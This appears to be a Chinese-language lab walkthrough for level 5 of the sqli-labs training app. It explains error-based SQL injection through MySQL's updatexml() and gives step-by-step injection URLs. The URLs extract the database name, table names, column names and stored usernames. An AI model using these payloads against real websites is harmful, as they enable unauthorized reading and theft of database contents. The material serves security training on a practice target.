




# Less - 05

---

# 一、报错注入介绍

---

updatexml(1,concat(0x7e,(database()),0x7e),1)，查看当前库，0x7e是’~'十六进制转化的结果，用来分割我们的结果  
updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='A' limit 0,1),0x7e),1)，查看A库下面的第一张表  
updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_name='B' limit 0,1),0x7e),1)，查看B表下面的第一个字段  
updatexml(1,concat(0x7e,(select C from A.B),0x7e),1)，查看C字段下面的第一个字段

---

# 二、通关教程

---

## 1、查看当前数据库

---

```http
http://192.168.225.132/sqli-labs/Less-5/?id=1' and updatexml(1,concat(0x7e,(database()),0x7e),1)--+
```

​​

## 2、查看security库下的表

---

```http
http://192.168.225.132/sqli-labs/Less-5/?id=1' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='security' limit 0,1),0x7e),1)--+
```

​​

这里可以改变limit函数的索引值查看后面的表

## 3、查看users表下的所有字段

---

```http
http://192.168.225.132/sqli-labs/Less-5/?id=1' and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_name='users' limit 0,1),0x7e),1)--+
```

​​

## 4、查看username字段的所有值

---

```http
http://192.168.225.132/sqli-labs/Less-5/?id=1' and updatexml(1,concat(0x7e,(select username from security.users limit 0,1),0x7e),1)--+
```

​​

‍
